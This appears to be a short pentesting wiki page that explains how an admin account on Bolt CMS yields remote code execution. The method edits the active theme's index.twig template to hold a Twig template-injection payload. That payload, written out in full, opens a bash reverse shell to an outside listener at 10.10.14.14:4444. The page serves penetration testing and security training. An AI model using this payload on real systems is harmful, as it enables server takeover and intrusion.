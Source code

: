 # Bolt CMS

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

![](../../images/image (771).png)

- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

![](../../images/image (948).png)

- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed

